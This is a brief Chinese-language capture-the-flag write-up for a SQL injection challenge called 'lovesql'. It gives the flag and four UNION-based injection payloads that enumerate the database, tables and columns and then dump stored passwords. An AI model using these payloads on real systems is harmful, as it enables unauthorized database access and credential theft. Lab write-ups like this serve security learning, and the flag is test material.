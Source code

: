 ```yaml
---
Author: SuperJason
Date: 2020-12-30
---
```


## flag
`flag{0d11302e-1a43-4a77-b2f0-7a10c33bcfd9}`

## 思路
1. 访问环境，这道题较简单，有回显报错。   
   <img src="./../images/lovesql-1.png" style="zoom: 25%;" />
2. 参考[N1BOOK sql](../N1BOOK/[第一章%20web入门]sql注入-1.md),爆出数据库、数据表、字段。  
   - `-1' union select 1,database(),3 -- -`   
   <img src="./../images/lovesql-2.png" style="zoom:25%;" />
   - `-1' union select 1,group_concat(table_name),3 FROM information_schema.tables WHERE table_schema='geek' -- -`   
   <img src="./../images/lovesql-3.png" style="zoom:25%;" />
   - `-1' union select 1,group_concat(column_name),3 FROM information_schema.columns WHERE table_name='l0ve1ysq1' -- -`   
   <img src="./../images/lovesql-4.png" style="zoom:25%;" />
   - `-1' union select 1,group_concat(password),3 FROM l0ve1ysq1 -- -`   
   <img src="./../images/lovesql-5.png" style="zoom:25%;" />
